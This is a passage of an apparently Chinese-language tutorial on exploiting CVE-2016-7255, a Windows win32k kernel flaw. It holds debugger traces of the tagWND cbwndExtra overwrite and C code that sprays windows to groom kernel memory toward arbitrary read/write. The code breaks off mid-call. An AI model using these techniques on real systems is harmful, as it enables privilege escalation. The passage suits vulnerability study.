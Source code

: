 继续向下运行，会对tagWND中成员cbwndExtra + 0x3地址处的内容对4进行或运算：  
```
kd> p
win32k!xxxNextWindow+0x3d2:
969e85a1 7407            je      win32k!xxxNextWindow+0x3db (969e85aa)
kd> p
win32k!xxxNextWindow+0x3d4:
969e85a3 8b4378          mov     eax,dword ptr [ebx+78h]
kd> p
win32k!xxxNextWindow+0x3d7:
969e85a6 83481404        or      dword ptr [eax+14h],4
kd> p
win32k!xxxNextWindow+0x3db:
969e85aa 8b4308          mov     eax,dword ptr [ebx+8]
```  
  
  
可以看到此时成功将cbwndExtra值扩大到0x04000000：  
```
kd> dd 0xFEA1C290
fea1c290  04000000 fea1c200 000701d5 00000000
fea1c2a0  00000000 00000000 00000000 00000058
fea1c2b0  00010004 08000017 00000002 00000002
fea1c2c0  013663a0 0000a918 ffa83308 0001c033
fea1c2d0  00010017 08000004 000a01c0 00000003
fea1c2e0  ffa72dd8 877cd140 fea1c2d8 60040408
fea1c2f0  80000700 20080900 14c00000 00400000
fea1c300  00000000 fea1c128 fea1c488 fea00618
```  
##   
## 3.内存布局  
  
  
现在可以利用漏洞实现扩大cbwndExtra成员的方式来实现越界写入，需要在被扩大的tagWND对象的可写入的范围内布置另一个tagWND结构体作为用来修改的窗口对象，通过对该对象成员的修改实现任意地址读写，所以此时需要首先创建一部分窗口，在释放掉其中的一部分，这样触发漏洞的时候创建的窗口之后就会存在另一个tagWND对象，相应代码如下：  
```
BOOL Init_CVE_2016_7255(HWND *hWndList)
{
    BOOL bRet = TRUE;
    CONST DWORD dwFakeNum = 100;
    WNDCLASSEX wc = { 0 };
    char *pFakeName = "Fake";
    DWORD i = 0;

    memset(&wc, 0, sizeof(wc));
    wc.cbSize = sizeof(wc);
    wc.hInstance = GetModuleHandle(NULL);
    wc.lpfnWndProc = DefWindowProc;
    wc.lpszClassName = pFakeName;

    if (!RegisterClassEx(&wc))
    {
        ShowError("RegisterClassEx", GetLastError());
        bRet = FALSE;
        goto exit;
    }

    // 创建用来攻击的窗口
    for (i = 0; i < dwFakeNum; i++)
    {
        hWndList[i] = CreateWindowEx(NULL,
                                     pFakeName,
                                     "Hack",
                                     WS_VISIBLE,
                                     0, 0, 100, 100,
```